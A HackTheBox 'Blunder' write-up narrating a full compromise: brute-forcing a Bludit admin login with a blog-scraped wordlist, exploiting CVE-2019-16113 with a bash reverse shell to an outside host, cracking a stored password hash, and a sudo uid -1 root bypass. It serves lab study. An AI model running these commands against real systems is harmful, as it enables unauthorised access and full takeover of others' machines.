 # Blunder | HackTheBox

### 1. Scan
```bash
root@kali:/home/kali/Desktop/htb# nmap -sV 10.10.10.191 -p-
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-16 22:39 EDT
Stats: 0:07:28 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 76.45% done; ETC: 22:49 (0:02:18 remaining)
Nmap scan report for 10-10-10-191.tpgi.com.au (10.10.10.191)
Host is up (0.34s latency).
Not shown: 65533 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 583.32 seconds
```
The only service currently available is a HTTP web server.


### 2. Enumerate web server
Checked every page, only really 2 pages accessable through links, plus an image directory that can be explored but nothing that stood out as interesting. I began enumerating the pages using dirbuster, recursebuster and gobuster. Through these tools I was able to find the admin page located at: 10.10.10.191/admin/, however not much else. I knew there had to be something else, but it just wasn't revealing itself. I just resolved to enumerating everything possible, trying out different tools and techniques to try and find something.  
  
When using wfuzz to search for accessible files, I picked up several files, including one called "todo.txt".

```bash
kali@kali:/usr/share/wordlists/dirbuster$ wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -z file,/usr/share/wordlists/wfuzz/general/extensions_common.txt --sc 200 http://10.10.10.191/FUZZFUZ2Z
...
000007225:   200        70 L     157 W    2385 Ch     "admin - /"                               
000020012:   200        0 L      5 W      30 Ch       "install - .php"
000049839:   200        1 L      4 W      22 Ch       "robots - .txt"
000087027:   200        4 L      23 W     118 Ch      "todo - .txt"
```

Reading this file, it contains:
```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

This reveals a possible user that can be used with the admin login form. I still couldn't figure out how to get the password. I searched everywhere, ran a few more enumeration passes but came up empty handed. This was a huge rabbit hole and I couldn't really figure out where to go.  

### 3. Discover the password
I considered the possibility that I might need to use a wordlist to crack the login page. I searched online and found a vulnerability that allowed enumeration of passwords in Blundit. I thought I could use this to attack the login page and find out the password, but this didn't work.  
https://github.com/bludit/bludit/pull/1090  
  
After a while of getting nowhere I got a hint from the HTB forums to use what was in front of me, which sparked the idea to construct a custom wordlist from the page's content, and use that in the script.

```bash
kali@kali:~/Desktop/htb$ curl http://10.10.10.191/ | sed 's/<\/*[^>]*>//g' > blogcontent.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  7562  100  7562    0     0   9370      0 --:--:-- --:--:-- --:--:--  9358

kali@kali:~/Desktop/htb$ python bluditenum.py
...
[*] Trying: video
[*] Trying: |
[*] Trying: Book
[*] Trying: (2007).
[*] Trying: RolandDeschain

SUCCESS: Password found!
Use fergus:RolandDeschain to login.
```

### 4. Log in and do more enumeration
Logging in with the creds reveals a pretty ordinary looking back-end. The only thing that stood out to me was the possiblility of a PHP webshell through one of the image-upload forms. There were a few to look at, but none of the ones I found seemed to work.  
  
By using view-source on the page, I was able to find out the Bludit CMS version, and then do a search for vulnerabilities.  
I found this one which looked good: https://www.cvedetails.com/cve/CVE-2019-16113/  

### 5. Gain access through exploit
I went to use the metaspoilt module first. From what I could tell by discussing with others later on, this SHOULD have worked, but for some reason it just kept failing. I tried attempting to debug it using Wireshark, but nothing stood out as being a problem. Eventually I went looking for another way to do the exploit, and found a different script: https://github.com/cybervaca/CVE-2019-16113. To my relief, this one ended up working.  

```bash
kali@kali:~/Desktop/htb/CVE-2019-16113$ python CVE-2019-16113.py -u http://10.10.10.191 -user fergus -pass RolandDeschain -c "bash -c 'bash -i >& /dev/tcp/10.10.14.20/1337 0>&1'"
[+] csrf_token: d1b01000e24bf5af6f34ead174816adb331cc63e
[+] cookie: 822n2v20moq7vek532q4ef1de6
[+] csrf_token: 08099658578243abe74bdf2ae00d181dac236cf4
[+] Uploading wnqirypr.jpg
[+] Executing command: bash -c 'bash -i >& /dev/tcp/10.10.14.20/1337 0>&1'
[+] Delete: .htaccess
[+] Delete: wnqirypr.jpg
```

### 6. Enumerate from the foothold
This exploit gained me the www-data user, which prevented me from actually reading a lot of files. However I had an idea of what might be accessible, and so prioritised checking the network service files, including the ftp service that was noticed during the scan. In the /ftp directory I found a note amongst some random files:

```bash
www-data@blunder:/ftp$ cat note.txt

Hey Sophie
I've left the thing you're looking for in here for you to continue my work
when I leave. The other thing is the same although Ive left it elsewhere too.

Its using the method we talked about; dont leave it on a post-it note this time!

Thanks
Shaun
```

This seemed to obviously suggest a password was located somewhere, just in a different location. This led to some more desperate searching, making heavy use of grep to search inside directories with a lot of stuff. That was how I found a password hash.
```bash
www-data@blunder:/var/www/bludit-3.10.0a$ grep -R password
...
bl-content/databases/users.php:        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
```
Using Crackstation, I was able to find out this hash corresponds to the plaintext password of Password120.

### 7. Try password with users
I knew at this point this was probably the password to a user account, so it was just a matter of trying it with each user account on the machine.
```bash
www-data@blunder:/home$ su - hugo
Password: Password120

hugo@blunder:~$ cat user.txt
```
The password belonged to the user hugo, which allowed me to claim the user flag.

### 8. Escalate privileges
When I got the user, straight away I did sudo -l and noted the root account appeared to be disabled for the user.
```bash
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

After some more searching online, I found a page: https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability that did a great job of explaining a recent vulnerability found with sudo, that would allow me to bypass the restriction.  

By doing sudo and supplying a uid of -1, it gets treated the same as the root user's id of 0, which runs the given command as root despite anything dictated in the sudoers file.

My current situation matched the requirements for exploitation, so I knew I had to try it.
```bash
hugo@blunder:~$ sudo -u#-1 bash   

root@blunder:/home/hugo# whoami
root
```